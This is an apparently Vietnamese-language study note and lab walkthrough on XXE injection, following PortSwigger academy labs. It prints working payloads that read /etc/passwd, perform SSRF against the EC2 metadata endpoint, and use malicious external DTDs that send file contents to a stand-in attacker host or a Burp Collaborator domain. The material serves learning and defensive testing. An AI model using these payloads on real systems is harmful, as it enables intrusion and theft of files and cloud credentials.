

# XXE

## Khái niệm:

> XXE (XML external entity injection) là 1 vul web cho phép `attacker` tấn công, can thiệp vào quá trình xử lí `xml data`.
>
> Nó cho phép `attacker` xem các file trên `system` và tương tác với chúng, thực hiện `SSRF`, `Access Control Bypass` kết hợp với `RCE`, ...
> 

## Làm thế nào để XXE phát sinh

> Một số ứng dụng dùng `XMl` để truyền data giữa `Browser` và `Server`. Các ứng dụng thực hiện đều này hầu như luôn sử dụng `lib` hoặc `API` để xử lý `XML` trên `Server`.
>
> Các vul `XXE` phát sinh do đặc tả của `XML` chứa nhiều tính năng nguy hiểm tiềm ẩn khác nhau.

## Các loại XXE attack:

> - Khai thác `XXE` để truy xuất file (Exploiting XXE to retrieve files): Trong 1 thực thể bên ngoài được xác định có chứa content của file, và được trả về trong phản hồi của ứng dụng
> - Khai thác `XXE` để thực hiện `SSRF` (Exploiting XXE to perform SSRF attacks): Nơi mà `entity` bên ngoài được xác định dựa trên `URL` đến hệ thống `back-end`
> - Khai thác `Blind XXE` `out-of-band` (Exploiting blind XXE exfiltrate data out-of-band): Nơi data nhạy cảm được truyền từ `server` tới hệ thống mà `attacker` kiểm soát
> - Khai thác `blind XXE` để truy xuất dữ liệu qua thông báo lỗi (Exploiting blind XXE to retrieve data via error messages): Nơi mà `attacker` có thể kích hoạt thông báo lỗi phân tích cú pháp dữ liệu `sensitive`

## Hậu quả:

> `attacker` có thể lấy được dữ liệu của hệ thống, ngoài ra kẻ tấn công còn truy cập tới các ứng dụng, thiết bị phụ trợ mà ứng dụng này được phép truy cập...

## Exploiting XXE to retrieve files (Khai thác XXE để truy xuất file)

> Để khai thác được lỗi này, có 2 cách để sửa `XML` đã gửi:
>
> - Sửa phần từ `DOCTYPE` xác định một thực thể bên ngoài chứa đường dẫn tới tệp
> - Chỉnh sửa giá trị trong `XML` được trả về trong `response` của app để sử dụng thực thể bên ngoài đã xác định

> Ví dụ một ứng dụng mua sắm kiểm tra mức độ còn sản phẩm của ứng dụng bằng cách gửi `XML` lên máy chủ:
>
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <stockCheck><productId>381</productId></stockCheck>
> ```

> Ứng dụng đã không triển khai bất kì hình thức nào để chống `XXE` vì vậy có thể `exploit` để truy xuất `/etc/passwd` file bằng cách gửi `payloads` sau:
>
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
> <stockCheck><productId>&xxe;</productId></stockCheck>
> ```

> `payload` này xác định thực thể bên ngoài `&xxe` có giá trị là content của tệp `/etc/passwd` và sử dụng trong thực thể `productId`. Điều này khiến app trả về:
>
> ```
> Invalid product ID: root:x:0:0:root:/root:/bin/bash
> daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
> bin:x:2:2:bin:/bin:/usr/sbin/nologin
> ...
> ```

#### Lab: Exploiting XXE using external entities to retrieve files

> Tag: Apprentice
>
> Des: Lab này chứa tính năng `check stock` phân tích cú pháp `input XML` và trả về `value` không mong muốn. Để `solve` thì hãy đưa 1 thực thể bên ngoài và truy xuất content của `/etc/passwd`

**Giao diện ban đầu**

> 

> Dùng `Burp` chặn `request` chỗ `check stock`, lúc đầu sẽ như này:
> 

> Sửa đoạn `XML`:
>
> ```
> <?xml version="1.0" encoding="UTF-8"?>
>
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
>
> <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
> ```

> Trả về:
> 

> DONE:
> 

---

## Exploiting XXE to perform SSRF attacks

> Ngoài việc truy xuất dữ liệu nhạy cảm, tác động khác của `XXE` là chúng có thể được sử dụng để thực hiện `SSRF`.
>
> Để thực hiện `XXE` cùng với `SSRF`, cần 1 `entity` bên ngoài bằng cách sửa dụng `URL` mà bạn muốn nhắm mục tiêu và sử dụng `entity` đã xác định trong 1 giá trị dữ liệu
>
> Ví dụ:
>
> ```
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
> ```

#### Lab: Exploiting XXE to perform SSRF attacks

> Tag: Apprentice
>
> Des: Lab này sử dụng `XML` để kiểm tra `stock`, `server` đang chạy `EC2 metadata endpoint` : `http://169.254.169.254` để truy xuất dữ liệu.
>
> Để solve hãy exploit `XXE` cùng với `SSRF` để lấy được khóa bí mật `AIM`

**Giao diện**

> 

> Chặn bắt `request stock`:
> 

> Vì điểm cuối (endpoint) được truy xuất nên lấy `endpoint` được trả về rồi cho vào path send tiếp:
>    

> DONE:
>  

---

## Blind XXE vulnerabilities

> Nhiều trường hợp vul `XXE` bị mù. Điều này có nghĩa ứng dụng không trả về giá trị của bất kì `entity` nào bên ngoài đã được xác định trong `response` và do đó không thể truy xuất tệp
>
> `Blind XXE` vẫn có thể exploit và detected, nhưng cần một số biện pháp tiên tiến hơn. Đôi khi phải cần kỹ thuật `out-of-band` để find và exploit chúng để lấy data. Hoặc có thể kích hoạt `XML parsing errors` theo cách thông báo lỗi dữ liệu nhạy cảm

### Detecting blind XXE using out-of-band (OAST) techniques

> Thường có thể phát hiện `Blind XXE` bằng cách sử dụng kỹ thuật tương tác như đối với `XXE SSRF` nhưng kích hoạt tương tác mạng với `out-of-band` với hệ thống kiểm soát
>
> Ví dụ:
>
> ```
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
> ```

> Sau đó, sử dụng `entity` đã xác định trong một giá trị dữ liệu trong `XML`
>
> Cuộc `attack XXE` này khiến `server` thực hiện một yêu cầu `backend` tới `URL` được chỉ định. `Attacker` có thể monitor kết quả `DNS` và yêu cầu `HTTP` do đó `XXE` thành công

#### Lab: Blind XXE with out-of-band interaction

> Des: Lab này có tính năng `check stock` phân tích cú pháp `XML` nhưng không hiển thị hết kết quả
>
> `Detect blind XXE vul` bằng cách kích hoạt `out-of-band` với miền bên ngoài
>
> Để solve dùng 1 `entity` bên ngoài cho trình phân tích `XML` tra cứu `DNS` và `Burp Collaborator`

**Giao diện**


> Dùng Burp để chặn `request` và dùng `Burp Collaboratory`:
> 

> Sửa http lấy từ `Collaborator`:
>
> Thêm vào `XML`:
>
> ```
> <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
> ```
>
> 

> Xong:
>  

---

> Đôi khi, cuộc `attack XXE` sử dụng các `entity` thông thường bị chặn do `input validation`.
>
> Trong case này, có thể dùng các `parameter entity XML` để thay thế.

> ```
> <!ENTITY % myparameterentity "my parameter entity value" >
> ```

> Các `parameter entities` được tham chiếu bằng kí tự `%` thay vì `&`:
>
> ```
> %myparameterentity;
> ```

> Điều này có nghĩa là có thể kiểm tra `blind XXE` bằng cách sử dụng `out-of-band` phát hiện qua `XML parameter` như sau:
>
> ```
> <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
> ```

> `XXE Payload` này khai báo `XML Parameter` được gọi là `xxe` và sau đó sử dụng `entity` trong `DTD`. Điều này thực hiện tra cứu `DNS` và `HTTP request` đến `attacker domain`, xác minh rằng `attack` thành công

#### Lab: Blind XXE with out-of-band interaction via XML parameter entities

> Tag: Practitioner
>
> Des: Lab này chứa tính năng `check stock` phân tích cú pháp `XML`, nhưng không hiển thị bất kì giá trị không mong muốn và chặn các `entity` bên ngoài
>
> Để solve dùng `parameter entity` để tra cứu `DNS` và `HTTP request` cho `Burp Collaborator`

**Giao diện**


> Dùng Burp để chặn:
>
> Sửa request với `Burp Collaborator`
>
> 

> DONE:
>  

---

### Exploiting blind XXE to exfiltrate data out-of-band

> Việc phát hiện `blind XXE` thông qua `out-of-band` là rất tốt, nhưng nó không chứng minh được cách thức khai thác vul.
>
> Mục tiêu của `attacker` là lấy sạch đi tất cả dữ liệu. Điều này có thể `explot` bằng `blind XXE` nhưng nó liên quan tới attacker lưu trữ một `DTD` độc hại trên hệ thống mà chúng kiểm soát

> Ví dụ về một DTD độc hại để lấy nội dung của tệp `/ etc / passwd` như sau:
>
> ```
> <!ENTITY % file SYSTEM "file:///etc/passwd">
> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
> %eval;
> %exfiltrate;
> ```

> DTD sẽ theo các bước sau:
>
> - Định nghĩa `XML parameter entity` gọi là `file`, chứa nội dung: `/etc/passwd`
> - Định nghĩa `XML parameter entity` gọi là `eval`, chứa entity `exfiltrate`. Nó sẽ thực hiện tới 1 `URL HTTP` của `attacker` để truy vấn URL
> - Sử dụng `eval` để cho `exfiltrate` thực hiện
> - Sử dụng `entity exfiltrate`, để giá trị của nó được đánh giá bằng cách yêu cầu tới các URL được chỉ định

> Sau đó attacker phải lưu trữ `DTD` độc hại trên hệ thống chúng đang control, thông thường bằng cách tải lên web của chúng
>
> ```
> http://web-attacker.com/malicious.dtd
> ```

> Cuối cùng, attacker gửi payload XXE cho app:
>
> ```
> <!DOCTYPE foo [<!ENTITY % xxe SYSTEM
> "http://web-attacker.com/malicious.dtd"> %xxe;]>
> ```

#### Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

> Des: Lab chứa tính năng kiểm tra kho, nhưng k return kết quả
>
> Solve: `exfiltrate` file `/etc/passwd`

**Giao diện**


> Chặn request:
> 

> Bài này cần 1 server để tải DTD mã độc lên đó. Lab cũng cung cấp sẵn 1 web. Vào đó rồi deploy lên:
> 

> Sử dụng `server` đó để lưu trữ `file` độc, ta làm tiếp. Dùng `Burp Collaborator` tạo `link` rồi thay vào `web server`:
>
> `script`:
>
> ```
> <!ENTITY % file SYSTEM "file:///etc/hostname">
> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
> %eval;
> %exfil;
> ```
>
> Nó sẽ như thế này sau đó nhấn `store` ở bên `server` để lưu `script`:
> 

> `View exploit`:
> 

> `Send check stock` qua `repeater`:
> 

> `Script`:
>
> ```
> <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
> ```

> Send rồi `pull now` bên `Collaborator`:
> 

> Nó sẽ trả về `content` của `/etc/passwd` tại chỗ `x` vì trên `file` độc tại `server config` như vậy
> DONE
> 

---

### Exploiting blind XXE to retrieve data via error messages

> Một cách tiếp cận khác thể khai thác `Blind XXE` là kích hoạt `XML parsing error` trong đó có lỗi chứa data nhạy cảm mà attacker muốn truy xuất.
>
> Điều này có hiệu lực nếu ứng dụng trả về kết quả lỗi trong `response`

> Có thể kích hoạt nó với `file` chứa nội dung: `/etc/passwd` bằng mã độc `DTD`:
>
> ```
> <!ENTITY % file SYSTEM "file:///etc/passwd">
> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
> %eval;
> %error;
> ```

> Step:
>
> - Định nghĩa 1 `entity` là `file`, chứa `content`: `/etc/passwd`
> - Định nghĩa 1 `entity` là `eval`, chứa 1 khai báo động của 1 `entity parameter` gọi là `error`. Nó sẽ được đánh giá bằng cách tải 1 tệp không tồn tại chứa giá trị của `file`
> - `eval` được sử dụng (gọi), entity này khiến việc khai báo `error` được thực hiện
> - `error` được gọi, cố gắng tải 1 file không exist dẫn tới thông báo tên của tệp k tồn tại, là nội dung của tệp `/etc/passwd`

> Lỗi như sau:
>
> ```
> java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
> daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
> bin:x:2:2:bin:/bin:/usr/sbin/nologin
> ...
> ```

#### Lab: Exploiting blind XXE to retrieve data via error messages

> Tab: Practitioner
>
> Des: Lab chứa tính năng `check stock`, `XML` không hiện thị kết quả
>
> Để solve, Dùng `DTD` bên ngoài để kích hoạt lỗi hiện thị nội dung của tệp `/etc/paswd`

**Giao diện**

> 

> Lab cũng cung cấp 1 `server` để lưu trữ mã độc:
>
> `Script`:
>
> ```
> <!ENTITY % file SYSTEM "file:///etc/passwd">
> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
> %eval;
> %exfil;
> ```
>
> 

> Chặn và sửa `check stock`:
>
> `Script`:
>
> ```
> <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
> ```
>
> 

> DONE
> 
